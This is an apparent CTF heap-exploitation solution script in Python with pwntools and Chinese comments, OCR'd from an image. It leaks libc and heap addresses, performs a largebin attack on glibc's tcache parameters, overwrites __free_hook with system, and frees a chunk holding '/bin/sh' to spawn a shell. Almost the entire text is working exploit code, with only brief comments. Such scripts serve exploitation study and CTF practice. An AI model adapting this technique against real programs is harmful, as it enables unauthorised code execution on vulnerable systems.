 ```python
def show(idx):
    p.sendlineafter(b"5. Exit",str(4))
    p.sendlineafter(b"Index: ",str(idx))

#泄露libcbase
add(1,0x500)
add(2,0x600)
add(3,0x700)
delete(1)
delete(3)
add(4,0x700)
show(1)
out=u64(p.recv(6).ljust(8,b"\x00"))
base=out-libc.sym['__malloc_hook']-1168-0x10
print("libc_base=",hex(base))
free_hook= base +libc.sym['__free_hook']
system=base+libc.sym['system']
#泄露heapbase
edit(1,b'a'*0x10)
show(1)
p.recvuntil(b'a'*0x10)
heap_base=u64(p.recv(6).ljust(8,b'\x00'))-0x290
edit(1,p64(out)*2)
log.success("heap base : "+hex(heap_base))

#0x1e3280  
#largebin attack
mp_offset=0x1e3280
mp_=base+mp_offset
print("mp_=",hex(mp_))
target=mp_+0x50
add(10,0x500)#take out 1
add(5,0x700)#chunk1
add(6,0x500)
add(7,0x6f0)#chunk2
add(8,0x500)
delete(5)
add(9,0x900)
delete(7)
show(5)
fd=u64(p.recv(6).ljust(8,b"\x00"))
edit(5,p64(fd)*2+p64(0)+p64(target-0x20))
add(11,0x900)

#让0x510大小的chunk的tcache counts不为0，这点很重要
add(2,0x500)
delete(2)
edit(1,p64(0)*13+p64(free_hook))
add(3,0x500)
edit(3,p64(system))
#随便找一个没被用过的chunk写入就行
edit(6,b'/bin/sh\x00')
delete(6)
p.interactive()
```
